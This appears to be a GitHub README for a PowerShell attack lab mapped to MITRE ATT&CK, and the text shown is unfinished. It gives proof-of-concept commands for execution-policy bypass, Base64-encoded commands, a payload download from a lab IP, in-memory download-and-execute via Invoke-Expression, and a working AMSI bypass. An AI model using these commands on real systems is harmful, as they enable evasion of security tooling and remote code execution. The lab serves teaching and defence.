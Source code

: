 # Scenario 

This attack falls into the execution phase of Mitre Att&ck and requires initial access to the victim machine via phishing, credential dumping or other methods. This scenario demonstrates the different techniques and tactics attackers use when using powershell maliciously and details the common misconfigurtions that allow these attacks to take place and best practices to secure your network
from malicious powershell use.

# Setup
# Attack Types
1. **Local Powershell script Execution**
   Attacker runs a script that is hosted locally
   Proof of concept: `powershell -ExecutionPolicy Bypass -File .\script.ps1`
   <img width="702" height="389" alt="image" src="https://github.com/user-attachments/assets/970d2cc5-124b-43e6-8074-357a558b6013" />

2. **Base64 Encoded Command**
   Attackers use Base64-encoded PowerShell commands primarily to:
   - Hide what the code is doing
   - Avoid detection by AV/EDR.
   - Bypass restrictions or logging.
   - Execute commands more reliably in remote or automated contexts.
  Proof of concept: `powershell -ExecutionPolicy Bypass -EncodedCommand VwByAGkAdABlAC0ASABvAHMAdAAgACIAaABlAGwAbABvACwAIABXAG8AcgBsAGQAIQAiAAoA`
<img width="860" height="54" alt="image" src="https://github.com/user-attachments/assets/081d264b-6284-4d82-a8e4-ea73c19cbd4a" />


  From this point the commands will be base64 encoded due to the prolific use in attacks. All commands will be executed in the same manner

3. **Download payload to disk for later use**
   Attacker will download payloads and malware for further staging and save them to disk so they can be ran later.
   <img width="849" height="437" alt="image" src="https://github.com/user-attachments/assets/ae623c89-9e75-4b62-883a-629145674136" />

   Proof of concept: `$Text = 'Invoke-WebRequest -Uri "http://192.168.1.105:8080/script.ps1" -OutFile "script.ps1"'`
   
4. **Download and Execute in Memory**
   Attackers will download scripts using the Invoke_WebRequest expression which is passed to Invoke-Expression which will execute the
   script in memory never writing any files to disk. This allows attackers to run commands and deliver full malware capabilities
   including c2 beacons.
   Proof of Concept: `$Text = "Invoke-Expression (Invoke-WebRequest -UseBasicParsing 'http://192.168.1.105/script.ps1')"`
   <img width="851" height="717" alt="image" src="https://github.com/user-attachments/assets/54252204-a5ff-497c-a8e5-662fca9d29ad" />
5. AMSI Bypass
   Attackers 

   Proof of concept: `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null, $true)
Add-Type -AssemblyName PresentationFramework
[System.Windows.MessageBox]::Show('AMSI bypass simulated.')
`

  

